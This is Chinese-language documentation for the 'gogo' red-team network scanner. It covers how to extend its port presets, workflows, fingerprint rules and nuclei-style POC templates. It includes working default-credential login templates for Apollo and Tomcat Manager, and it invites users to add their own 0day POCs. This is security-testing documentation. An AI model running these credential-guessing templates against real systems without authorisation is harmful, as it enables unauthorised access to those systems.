



拓展
gogo 保留了大量可拓展接口, 例如指纹、poc/exp、工作流, 端口。
这些预设保存在v2/templates目录下, 以yaml的形式保存与编辑, 但在编译的时候会自动转为JSON并压缩打包到二进制文件中。
绝大部分插件都可以使现有的框架能完成, 如果有较为复杂的需求, 例如ms17010探测, 可以在/v2/internal/plugin中添加。
拓展端口¶
配置文件: v2/templates/port.yaml
端口配置最为简单, 不需要讲解就能理解。默认配置中有大量案例, 如果有新的默认端口预设, 可以提交issue或pr, 或者通过社交软件联系我。
值得一提的是, name与tags 都会被gogo作为-p参数下可选择的id, 例如db预设, 就是通过tags的方式给多组端口都加上了这个tag.。通过-p db即可选用所有的数据库默认端口。
一个完整的示例
- name: top2
ports:
- '70'
- 80-90
- '443'
- '1080'
- 2000-2001
- 3000-3001
- '1443'
- '4443'
- '4430'
- 5000-5001
- '5601'
- 6000-6003
- 7000-7003
- 9000-9003
- 8080-8091
- 8000-8020
- '8820'
- '6443'
- '8443'
- '9443'
- '8787'
- '7080'
- '8070'
- '7070'
- '7443'
- 9080-9083
- '5555'
- '6666'
- '7777'
- '9999'
- '6868'
- '8888'
- '8889'
type:
- http
- common
这样配置的端口可通过-p top2 或-p http 或-p common三种方式调用。
可以在指纹中的default_port字段填写port中配置的name或tag。
拓展workflow¶
配置文件: v2/templates/workflows.yaml
一个完整的示例,
- name: "192" // 名字, 可通过--workflow调用的标识符
description: "对192.168.1.1/16使用完整的启发式扫描" // 描述
ip: 192.168.0.0/16 // 指定的ip
iplist: //指定的ip列表, 与ip二选一
- 192.168.0.0/16
ports: top2,win,db // 端口配置, 与命令行用法相同, 默认值 'top1'
mod: s // 模式, 与命令行用法相同, 默认值 'default'
ping: true // ping启发探测,等同于命令行的--ping 默认值 'false'
no-scan: false // 设置为true则只进行启发式扫描, 不会进行端口扫描. 默认值 'false', 等同于命令行--no
ip-probe: default // ip探针, 只可使用于--mod ss的场景下, 默认值 'default', 等同于命令行的--ipp default
port-probe: default // 端口探针, 只可使用于启发式扫描场景下, 默认值 'default', 等同于命令行的--sp default
exploit: none // 是否启用漏扫, 默认值 'none', 等同于命令行的-e 或 -E
verbose: 0 // 是否启用主动指纹识别, 默认值 '0', 等同于-v
file: auto // 输出文件位置, 默认值 'auto', 等同于-f
path: . // 输出文件路径, 默认值 '.', 等同于--path
tags: // 将多个name划分为组, 可通过--workflow tagname即可调用多个workflow
- inter
如果没有填相应的值, 则采用默认值。
如果使用--workflow参数, 但只想改变某几个参数, 可直接使用--workflow workflowname的同时, 使用命令行参数进行覆盖, 命令行参数的优先级大于workflow.
拓展指纹¶
语法引擎详细文档: fingers语法
完整说明:
- name: frame # 指纹名字, 匹配到的时候输出的值
default_port: # 指纹的默认端口, 加速匹配. tcp指纹如果匹配到第一个就会结束指纹匹配, http则会继续匹配, 所以默认端口对http没有特殊优化
- '1111'
protocol: http # tcp/http, 默认为http
rule:
- version: v1.1.1 # 可不填, 默认为空, 表示无具体版本
regexps: # 匹配的方式
vuln: # 匹配到vuln的正则, 如果匹配到, 会输出framework为name的同时, 还会添加vuln为vuln的漏洞信息
- version:(.*) # vuln只支持正则, 同时支持版本号匹配, 使用括号的正则分组. 只支持第一组
regexp: # 匹配指纹正则
- "finger.*test"
# 除了正则, 还支持其他类型的匹配, 包括以下方式
header: # 仅http协议可用, 匹配header中包含的数据
- string
body: # 包含匹配, 非正则表达式
- string
md5: # 匹配body的md5hash
- [md5]
mmh3: # 匹配body的mmh3hash
- [mmh3]
# 只有上面规则中的至少一条命中才会执行version
version:
- version:(.*) # 某些情况下难以同时编写指纹的正则与关于版本的正则, 可以特地为version写一条正则
favicon: # favicon的hash值, 仅http生效
md5:
- f7e3d97f404e71d302b3239eef48d5f2
mmh3:
- '516963061'
level: 1 # 0代表不需要主动发包, 1代表需要额外主动发起请求. 如果当前level为0则不会发送数据, 但是依旧会进行被动的指纹匹配.
send_data: "info\n" # 匹配指纹需要主动发送的数据
vuln: frame_unauthorized # 如果regexps中的vuln命中, 则会输出漏洞名称. 某些漏洞也可以通过匹配关键字识别, 因此一些简单的poc使用指纹的方式实现, 复杂的poc请使用-e下的nuclei yaml配置
最简指纹¶
绝大多数下, 只需要添加最基本的python, 能实现指纹识别.
匹配body
- name: tomcat
rule:
- regexps:
body:
- Apache Tomcat
匹配favicon
- name: Fortinet Fortigate SSL VPN
rule:
- favicon:
mmh3:
- '945408572'
TCP指纹¶
在gogo中的tcp指纹插件并不多, 加起来也只有20条左右。
在gogo的早期开发中, 一度想过将nmap的指纹全量移植, 但在实践中发现, server指纹有大量主动发包的行为, 并且绝大多数server实战中就算扫到了也没有漏洞去攻击. 为此, 我们想到了一种不需要扫描的指纹识别方式。
也就是经常在gogo中看到了指纹中的guess字段。

这个字段代表, 该指纹是从默认端口配置中猜测的, 而实际上, 需要主动发包扫描的大多数服务也不会更换默认端口. 在经过半年的体验以及一些微小的调整后, 我们认为目前的tcp指纹已经能覆盖99%的渗透测试场景. 如果有必要添加新的tcp指纹, 欢迎提交issue.
以这个rdp服务为例学习gogo中如何编写一个tcp指纹.
- name: rdp
default_port:
- rdp
protocol: tcp
rule:
- regexps:
regexp:
- "^\x03\0\0"
send_data: b64de|AwAAKiXgAAAAAABDb29raWU6IG1zdHNoYXNoPW5tYXANCgEACAADAAAA
指纹的default_port可以使用port.yaml中的配置.
port.yaml中的rdp:
- name: rdp
ports:
- '3389'
- '13389'
- '33899'
- "33389"
非常方便的配置guess规则.
另外, rdp服务需要主动发包才能获取到待匹配的数据, 因此, 还需要配置send_data.
而为了方便在yaml中配置二进制的发包数据, gogo添加了一些简单的装饰器. 分别为:
- b64en , base64编码
- b64de , base64解码
- hex, hex编码
- unhex, hex解码
- md5, 计算md5
在数据的开头添加b64de| 即可生效. 如果没有添加任何装饰器, 数据将以原样发送. 需要注意的是yaml解析后的二进制数据可能不是你看到的, 强烈建议二进制数据都使用base64或hex编码后使用.
这条rdp实际上也是从nmap中移植的, nmap的指纹仓库在这里: https://github.com/nmap/nmap/blob/master/nmap-service-probes
如果熟悉nmap的指纹, 移植指纹并不是一件困难的事情, 甚至也已经有了完全移植nmap指纹库的项目, 不过gogo的tcp指纹(特别是需要主动发包的指纹)未来还是会保持在最小可用状态, 除非必要, 不会添加一些用不到的指纹.
拓展POC¶
gogo的poc采用了nuclei的poc, 但删除了部分nuclei的语法. 例如dsl. 并且有部分较新的nuclei语法暂不支持.
gogo 目前支持tcp(暂不支持tls tcp)与http协议的绝大部分nuclei poc
gogo与nuclei编写poc的注意事项¶
nuclei 官方的poc编写教程 https://nuclei.projectdiscovery.io/templating-guide/
gogo常用于特殊环境下, 因此删除了许多nuclei原有的功能, 例如dsl, oast以及除了http与tcp协议之外的漏洞探测.
nuclei更新较快, 一般情况下gogo会落后nuclei最新版几个月, 所以建议只使用基本的规则, 编写最简的poc, 保证兼容性.
明确删除并且后续不会添加的功能
部分功能会以简化的形式重新加入到gogo中
- oast与OOB,这类需要外带的功能, 可以通过探测接口是否存在做一个大致的匹配.
- workflow, 通过chain简单代替
- info中的大多数信息, 只保留最基本的信息, 并且不会输出, 建议只保留name, tag, severity三个字段
- pipeline
- Race conditions
- 除了regex之外的extractor. 因为引入多个解析库容易会变得臃肿
暂时不支持的功能, 但在计划表中的功能
- cookie reuse
- http redirect
- variables （已支持自定义payloads, 功能类似variables）
- Helper Functions (已支持完整的dsl引擎)
nuclei中没有, 只能在gogo中使用的功能
- finger字段, 能绑定finger, 提供除了tag之外的绑定finger办法，允许写入多个finger
id: poc-id
finger:
- fingername1
- fingername2
- chain字段, 如果match成功后会执行的poc
id: poc-id
chain: 其他poc id
- 通过命令行参数替换yaml中的payload, 后续将会支持从文件中读列表
从nuclei templates 迁移poc¶
https://github.com/projectdiscovery/nuclei-templates
大部分poc仅需简单修改即可在gogo中使用.
示例 迁移apollo-login poc 到gogo

这个poc需要进行一些删减和改动.
- 删除一些header信息, 并且根据gogo的指纹重新添加tags
- 减少不必要的发包, apollo实际上只需要第一个signin的包即可确定是否成功
dsl在gogo中已删除, 因为dsl不是必要功能, 大部分场景都能通过正则实现, dsl只是减少复杂场景的使用难度. 因此, 我们可以把这段dsl修改为匹配固定值（已于v2.12.0版本中支持dsl）
example 1 apollo login
step 1 删除不必要的header, 仅保留如下信息, 并重新添加tags
需要注意的是, tags填写的是fingers中存在的指纹, 如果指纹没有识别到, 将不会自动使用poc. 需要-E poc id 强制指定
id: apollo-default-login
info:
name: Apollo Default Login
severity: high
tags: apollo
step2 and step3 原本的poc中有两个包, 修改为一个. 最终成果
id: apollo-default-login
info:
name: Apollo Default Login
severity: high
tags: apollo
requests:
- raw:
- |
POST /signin HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Origin: {{BaseURL}}
Referer: {{BaseURL}}/signin?
username={{user}}&password={{pass}}&login-submit=Login
attack: pitchfork
payloads:
user:
- apollo
pass:
- admin
matchers-condition: and
matchers:
- type: word
part: header
negative: true
words:
- '?#/error'
condition: and
- type: status
status:
- 302
example 2 tomcat default login
gogo中移植修改完的tomcat-manager-login:
id: tomcat-manager-login
info:
author: pdteam
name: tomcat-manager-default-password
severity: high
tags: tomcat-manager
zombie: tomcat
http:
- raw:
- |
GET /manager/html HTTP/1.1
Host: {{Hostname}}
Authorization: Basic {{base64(username + ':' + password)}}
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0
Accept-Language: en-US,en;q=0.9
attack: pitchfork
stop-at-first-match: true
matchers:
- status:
- 200
type: status
- type: word
words:
- Apache Tomcat
extractors:
- type: regex
name: cookie
internal: true
part: header
regex:
- 'JSESSIONID\..*=([a-z0-9.]+)'
matchers-condition: and
payloads:
username:
- admin
- root
- tomcat
- admin
password:
- admin
- root
- tomcat
- 123456
测试¶
因为gogo为了缩减体积, 仅使用了标准json库, 所以需要先将yaml转为json
使用自带的脚本 yaml2json.py.
python yaml2json.py apollo-login.yml -f apollo-login.json
指定ef文件加载poc
gogo.exe -ef .\poc.json -ip 127.0.0.1 -e -p 80 -debug
如果需要配合burp调试, 请使用proxifier代理, 代理gogo的流量到burp

提交¶
官方的poc仓库位于 https://github.com/chainreactors/gogo-templates/tree/master/nuclei
提交对应的pr, 将poc放到合适的文件夹下. 下次release就会自动编译到二进制文件中.
成为Contributors
如果不熟悉git使用, 直接将poc复现成功的截图与poc的yaml复制到issue中, 我会手动整理合并poc. 但这种方式可能不能在仓库的Contributors 中找到自己.
使用pull request就能成为repo的Contributors.
pull request
首先在github上点击fork, fork gogo-templates 到自己的账号下
然后 git clone fork之后的repo
将编写好的poc 放到gogo-templates/nuclei/对应的目录下.
在本地的文件夹下使用, git命令
git add .
git commit -m "add [poc name]"
git push origin master
这时候点开自己fork之后的repo, 就可以看到刚刚的提交.
然后点击pull request, 将本地的commit 提交至官方的仓库.
维护者看到pr或者issue后会review之后合并. 下个版本的gogo就能使用你提交的poc了.poc编写.md)
go插件¶
每个端口探测生命周期有一个贯穿始终的result变量, 在dispatch中添加触发某个插件的逻辑, 并在插件的具体实现中修改result变量即可完成插件的编写.
没有做过多的抽象, 希望最核心的可拓展能力还是以yaml的dsl为主.
一个简单的例子, v2/pkg/plugin/wmiScan.go
func wmiScan(result *pkg.Result) {
result.Port = "135"
target := result.GetTarget()
conn, err := pkg.NewSocket("tcp", target, RunOpt.Delay)
if err != nil {
return
}
defer conn.Close()
result.Open = true
ret, err := conn.Request(data, 4096)
if err != nil {
return
}
off_ntlm := bytes.Index(ret, []byte("NTLMSSP"))
if off_ntlm != -1 {
result.Protocol = "wmi"
result.Status = "WMI"
tinfo := utils.ToStringMap(ntlmssp.NTLMInfo(ret[off_ntlm:]))
result.AddNTLMInfo(tinfo, "wmi")
}
}
没有做过多的包装, 只需要多result的一些属性做出修改, 即可完成一个简易的poc.
大部分常见的特殊端口都已经覆盖, 如果额外的需求可以在新建issue. 更建议使用者协助我们维护gogo-templates 仓库.
打造自己的gogo¶
之前提到了gogo在选用指纹, poc的时候都一些自己的取舍, 这些取舍是为了红队场景下做出的, 但如果在非红队场景下, 使用者可以自行打造一个独属于自己的gogo. 例如gogo中没有添加的各种oa poc; 更多的主动发包的指纹等等.
只需要fork一份gogo-templates仓库, 然后从各种第三方指纹仓库和nuclei poc库中移植自己想要的指纹与poc, 或者添加自己拥有的0day poc/指纹, 几天时间就能拥有一个更为强大的, 自己的gogo.
gogo只是一个引擎, gogo的能力绝大部分来自于gogo-templates中. 公开版本的gogo是一个面向内网的扫描器. 实际上gogo也能胜任外网的扫描任务.